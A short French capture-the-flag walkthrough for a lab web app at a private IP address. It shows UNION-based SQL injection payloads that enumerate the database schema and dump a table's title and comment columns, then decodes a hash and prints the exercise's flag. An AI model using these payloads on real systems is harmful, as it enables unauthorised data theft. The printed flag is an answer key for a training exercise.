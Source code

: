 sur http://192.168.99.102/?page=searchimg

Nous savons déjà comment lister les colonnes et les tables de la db:

```sql
1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns
```

un petit CMD + F d'image nous indique directement que la table à exploité est `list_images`:

dans la table list_images nous avons:
id
url
title
comment

la colonne `comment` etait un bon point de depart sur l'autre faille:

testons alors d'afficher les comment et le title:

```sql
1 AND 1 = 2 UNION ALL SELECT title, comment FROM list_images
```

Amelioration:

Gerer les sqli, protegers les strings envoyer en request.

```
"If you read this just use this md5 decode lowercase then sha256 to win this flag !"
```

1928e8083cf461a51303633093573c46 -> albatroz 
sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188